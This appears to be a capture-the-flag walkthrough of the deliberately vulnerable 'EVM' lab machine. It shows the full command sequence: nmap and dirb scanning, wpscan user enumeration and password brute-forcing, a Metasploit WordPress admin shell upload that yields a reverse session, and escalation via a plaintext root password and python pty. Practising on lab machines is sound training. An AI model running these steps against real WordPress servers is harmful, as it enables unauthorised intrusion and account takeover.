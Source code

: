 # EVM machine walkthrough

Penetration Methodologies:
Network Scanning
Netdiscover
Nmap Scan
Enumeration
Browsing HTTP Service
Directory Bruteforce using dirb
Enumeration Using WPScan
Password Bruteforce using WPScan
Getting Login Credentials
Exploitation
Exploiting using Metasploit
Getting a reverse connection
Spawning a TTY Shell
Enumeration for Root Credentials
Privilege Escalation
Getting Login Credentials
Logging in as root
Reading the Final Flag

============================================
Walkthrough
============================================

sudo netdiscover 
machine ip - 192.168.1.103
nmap -A 192.168.1.103

Some ports open like - 22/tcp , 53/tcp , 80/tcp , 110/tcp , 139,tcp , 143/tcp, 445/tcp

Enumeration :-

As port 80 is open let us try and open the ip in the browser but not result found only apache index.html page found 
The apache webpage opens which is normal except for the fact that there was a comment saying “you can find me at /wordpress/ im vulnerable 😊 “

Now according to this comment, it means there is a vulnerable directory called ‘WordPress’. So to confirm we used dirb command which is:

Directory scanning:-
dirb http://192.168.1.103/
dirb http://192.168.1.103/wordpress

And to no surprise, there is a directory called ‘WordPress’. Now, this is wordpress, as the name suggests, we can use wpscan to find more about it. And for this, type:

Wordpress scanning:-
wpscan --url http://192.168.1.103/wordpress/ -e at -e ap -e u

With this command, we are telling the wpscan to enumerate(-e) all themes(at), all plugins(ap) installed on the wordpress site. And finally, all the users(u) that might be logged in on the WordPress Site

there is a vulnerable plugin c0rrupt3d_brain where we can attack via bruteforce and get a password to log in
So, for our bruteforce, we will use rockyou wordlist and to put it in action type:

Bruteforce:-
wpscan --url http://192.168.1.103/wordpress -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt

And when the bruteforce is successful, it will give you the password i.e. 24992499

Exploitation:-

Now that we know username and password, we can use an inbuilt wordpress exploit from Metasploit. Firstly, start Metasploit by typing ‘msfconsole’ and the type the following command:

use exploit/unix/webapp/wp_admin_shell_upload
set rhosts 192.168.1.103
set targeturi /wordpress
set username c0rrupt3d_brain
set password 24992499
exploit

So, once the exploit is running and attack is successful, you can have your meterpreter session. When you have the meterpreter session, go home by typing cd /home and checklist of things home has to offer by using ls command. There was only on folder there named root3r and when you navigate yourself to that folder and check the list of files with the same command you used before. Here, you will find .root_password_ssh.txt file; upon reading this text file with a cat you will find the password of the root user

cd /home
ls
cd root3r
ls
cat .root_password_ssh.txt

Privilige Escalation:-

Now, we know that the password of the root user is willy26. We can now switch our user to root and for this type:

shell
python -c 'import pty;pty.spawn("/bin/bash")'
su root
willy26

Now you are logged in as root along with its privileges too.

Once you are logged in as a root user, navigate yourself around and go to the root folder by typing cd /root. And there when you will use ls command, you find a proof.txt document. Upon reading it with cat command, it will show you that you have successfully pwned the machine. YAY!!!!!!


